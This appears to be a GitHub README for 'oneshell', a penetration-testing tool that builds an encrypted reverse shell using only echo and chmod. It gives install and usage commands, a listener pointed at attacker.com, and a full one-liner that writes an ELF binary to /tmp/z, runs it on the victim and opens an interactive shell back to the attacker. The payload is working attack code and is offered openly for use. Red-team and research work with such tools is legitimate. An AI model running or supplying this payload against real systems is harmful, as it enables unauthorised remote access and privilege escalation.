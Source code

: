 # One Shell To Rule Them All

![image](https://github.com/user-attachments/assets/4a390578-47cb-423a-87ca-ad681a46731c)

# Installation

**Docker**

Replace `oneshell` commands with the following:

```bash
docker run --rm -it -p 9001:9001 tantosec/oneshell
```

> Remember to update the value of the `-p` option to the port you are using.

**Local install**

```bash
go install github.com/tantosec/oneshell@latest
```

**Prebuilt binary**

Download a binary from [the releases page.](https://github.com/tantosec/oneshell/releases)

# Basic Usage

If you want your payload to connect back to `localhost` on port `9001`, run the following command:

```bash
oneshell -t localhost -p 9001
```

In the real world, you will probably have an internet accessible server (for example `attacker.com`) with a firewall that allows port `9001` through. As you want the victim to connect back to `attacker.com`, you will run a command like this on the `attacker.com` machine:

```bash
oneshell -t attacker.com -p 9001
```

You should receive output similar to the following:

```
Generating temporary MTLS certificates...
Payload connects to 127.0.0.1:9001
Copy the following command and run on victim:

zy(){ if [ `echo -e` ];then echo "$1";else echo -e "$1";fi;};zy '\0177ELF\02\01\01\0\0\0\0\0\0\0\0\0\02\0>\0\01\0\0\0x\0200\02\0\0\0\0\0@\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0@\0\070\0\01\0@\0\0\0\0\0\01\0\0\0\07\0\0\0\0\0\0\0\0\0\0\0\0\0200\02\0\0\0\0\0\0\0200\02\0\0\0\0\0l\01\0\0\0\0\0\0\0354i\013\0\0\0\0\0\0\0 \0\0\0\0\0\061\0300\0260)\0277\02\0\0\0\0276\01\0\0\0\061\0322\017\05I\0211\0307\0211\0307\0276d\0201\02\0\061\0322\0262\020\061\0300\0260*\017\05\0272\0210h\013\0\061\0300\017\05)\0302\01\0306\0203\0372\0w\0363\0277\021m\01\0H\0272d\0201\02\0\0\0\0\0H\0203\0377\0\017\0216\0205\0\0\0H\0213\02H\0213\034%>\0201\02\0H1\0330H\0211\04%>\0201\02\0H1\0300H1\0311\0276\0\0\0\0\0212\04%>\0201\02\0H\0201\0376\0\01\0\0s3@\0210\0361H\0203\0341\07\02\0201\066\0201\02\0H%\0377\0\0\0\0212\0200\0\0200\02\0H\0377\0301H\0203\0341\07\02\0201>\0201\02\0\0320\0300\0210\0201>\0201\02\0H\0377\0306\0353\0304H\0203\0302\010H\0377\0317\0353\0211k.Yc3\0255`OMw\0236K\0210\0256E\0323#\02\0271\0247l\0277\0372uH\0213\04%>\0201\02\0H\0213\034%F\0201\02\0H9\0330t\01\0314\02\0#)\0177\0\0\01'>/tmp/z;chmod +x /tmp/z;/tmp/z

2024/07/15 15:51:17 Listening for connections on 0.0.0.0:9001
```

Copy the part that says

```
zy(){ if [ `echo -e` ];then echo "$1";else echo -e "$1";fi;};zy '\0177ELF\02\01\01\0\0\0\0\0\0\0\0\0\02\0>\0\01\0\0\0x\0200\02\0\0\0\0\0@\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0@\0\070\0\01\0@\0\0\0\0\0\01\0\0\0\07\0\0\0\0\0\0\0\0\0\0\0\0\0200\02\0\0\0\0\0\0\0200\02\0\0\0\0\0l\01\0\0\0\0\0\0\0354i\013\0\0\0\0\0\0\0 \0\0\0\0\0\061\0300\0260)\0277\02\0\0\0\0276\01\0\0\0\061\0322\017\05I\0211\0307\0211\0307\0276d\0201\02\0\061\0322\0262\020\061\0300\0260*\017\05\0272\0210h\013\0\061\0300\017\05)\0302\01\0306\0203\0372\0w\0363\0277\021m\01\0H\0272d\0201\02\0\0\0\0\0H\0203\0377\0\017\0216\0205\0\0\0H\0213\02H\0213\034%>\0201\02\0H1\0330H\0211\04%>\0201\02\0H1\0300H1\0311\0276\0\0\0\0\0212\04%>\0201\02\0H\0201\0376\0\01\0\0s3@\0210\0361H\0203\0341\07\02\0201\066\0201\02\0H%\0377\0\0\0\0212\0200\0\0200\02\0H\0377\0301H\0203\0341\07\02\0201>\0201\02\0\0320\0300\0210\0201>\0201\02\0H\0377\0306\0353\0304H\0203\0302\010H\0377\0317\0353\0211k.Yc3\0255`OMw\0236K\0210\0256E\0323#\02\0271\0247l\0277\0372uH\0213\04%>\0201\02\0H\0213\034%F\0201\02\0H9\0330t\01\0314\02\0#)\0177\0\0\01'>/tmp/z;chmod +x /tmp/z;/tmp/z
```

and run it on the victim. You should receive an interactive shell connection on the server, which will be secured with mutual TLS.

# Why?

Let's say that you have achieved remote code execution on a target machine and are looking to escalate your privileges. You might think to establish a reverse shell to make this process easier.
However, being a security professional, you want your connection to be encrypted to prevent data being transferred insecurely.

It turns out that there are a few ways to do this, mostly involving the `openssl` or `ncat` tools. What if you don't have these tools on the target? One solution is to download them over the internet using `curl` or `wget`. But what if the target doesn't have these binaries either? The base `ubuntu` Docker image doesn't.

"One Shell To Rule Them All", or `oneshell` for short, is a tool that can solve this problem. It does this by running an encrypted reverse shell using only the `echo` and `chmod` commands.

To find out how it works, check out my blog on the topic [here](https://tantosec.com/blog/oneshell/).

# Detailed requirements for a successful payload

* Target can connect to your listener via TCP
* Shell execution on the target (for example `system` in PHP)
    * This will allow using the `echo` inbuilt shell command
* x86_64 CPU (Arm64 support coming soon)
* `chmod` binary located on path
* The ability to write to the following file paths: `/tmp/x`, `/tmp/y`, `/tmp/z`

These conditions cover almost all server setups.

# References

* Basis for Tiny ELF file from [https://nathanotterness.com/2021/10/tiny_elf_modernized.html](https://nathanotterness.com/2021/10/tiny_elf_modernized.html)
* AES implementation sourced from [https://github.com/mko-x/SharedAES-GCM/tree/master/Sources](https://nathanotterness.com/2021/10/tiny_elf_modernized.html)
